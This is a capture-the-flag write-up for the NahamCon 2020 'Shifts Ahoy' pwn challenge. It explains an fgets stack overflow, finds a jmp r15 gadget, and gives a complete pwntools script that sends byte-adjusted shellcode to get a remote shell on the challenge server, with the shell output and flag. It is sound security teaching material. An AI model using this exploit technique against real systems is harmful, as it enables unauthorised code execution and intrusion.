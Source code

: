 # NahamCon CTF 2020

## Shifts Ahoy

> 100
>
> I created super advanced encryption software for us to communicate securely.
>
> Connect here:</br>
> `nc jh2i.com 50015`</br>
>
> [`shifts-ahoy`](shifts-ahoy)

Tags: _pwn_ _x86-64_ _shellcode_ _rop_ _bof_ _remote-shell_


## Summary

Buffer overflow to ROP your shellcode.  The ROP is tight, 7-bytes!


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Almost nothing.  Choose your own adventure.


### Decompile with Ghidra

```c
void encrypt(char *__block,int __edflag)

{
  size_t sVar1;
  undefined4 in_register_00000034;
  char local_58 [72];
  int local_10;
  int local_c;
  
  printf("Enter the message: ",CONCAT44(in_register_00000034,__edflag));
  fgets(local_58,0x60,stdin);
  sVar1 = strlen(local_58);
  local_c = (int)sVar1;
  if (0x40 < (int)sVar1) {
    local_c = 0x40;
  }
  local_10 = 0;
  while (local_10 < local_c) {
    local_58[local_10] = local_58[local_10] + '\r';
    local_10 = local_10 + 1;
  }
  printf("\nEncrypted Message: %s\n",local_58);
  return;
}
```

The `fgets` buffer overflow vulnerability is in the `encrypt` function, and there is just enough overflow to work with.  `local_58` is `0x58` bytes from the return address and `fgets` is only going to read `0x60` bytes.  That leaves 8 bytes (7 if you count that `fgets` will replace the last byte with `0x00`, fortunately it needs to be zero), just enough to overwrite the return address.

_But with what?_

Looking at the `encrypt` disassembly:

```
        004012e1 49 89 e7        MOV        R15,RSP
        004012e4 90              NOP
        004012e5 c9              LEAVE
        004012e6 c3              RET
```

Just before `encrypt` returns, the stack pointer is copied (moved) to R15, which happens to have the address of `local_58` (check with GDB), so just send some shellcode and then `jmp r15`.  _Right?_

`jmp r15` check:

```python
>>> from pwn import *
>>> binary = ELF('shifts-ahoy')
[*] '/pwd/datajerk/nahamconctf2020/shifts/shifts-ahoy'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
>>> context.update(arch='amd64',os='linux')
>>> jmp_r15 = list(binary.search(asm('jmp r15')))[0]
>>> print("jmp r15",hex(jmp_r15))
jmp r15 0x4011cd
```

Good.

There's one last detail, the "encrypt" function, "encrypts" the first `0x40` bytes of our input to `fgets`, so we'll have to "decrypt" our payload so that when "encrypted" we get plaintext shellcode.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

#p = process('./shifts-ahoy')
p = remote('jh2i.com', 50015)

p.sendlineafter('> ','1')
p.recvuntil('Enter the message: ')

binary = ELF('shifts-ahoy')
context.update(arch='amd64',os='linux')
shellcode = asm(shellcraft.sh())
jmp_r15 = list(binary.search(asm('jmp r15')))[0]
print("jmp r15",hex(jmp_r15))

payload  = bytes([(x - ord('\r')) & 0xff for x in shellcode])
payload += (0x58 - len(payload)) * b'A'
payload += p64(jmp_r15)

p.sendline(payload)
p.interactive()
```

After obtinaing shellcode from pwntools and the address of `jmp r15`, the shellcode will need to be "decrypted", IOW, subtract `\r` from each byte since `encrypt` will just add it back, then pad out to `0x58` bytes (distance from return address), and set the return address to the address of `jmp r15`.

Output:

```
# ./exploit.py
[+] Opening connection to jh2i.com on port 50015: Done
[*] '/pwd/datajerk/nahamconctf2020/shifts/shifts-ahoy'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
jmp r15 0x4011cd
[*] Switching to interactive mode

Encrypted Message: jhH\xb8/bin///sPH\x89\xe7hri\x814$1\xf6V^H\xe6VH\x89\xe61\xd2j;X\x0fNNNNNNNNNNNNNNNNAAAAAAAA@
$ id
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
$ ls
flag.txt
shifts-ahoy
$ cat flag.txt
flag{captain_of_the_rot13_ship}
```

So `\r` is the 13th ASCII character, _rot?_, anyway, done.
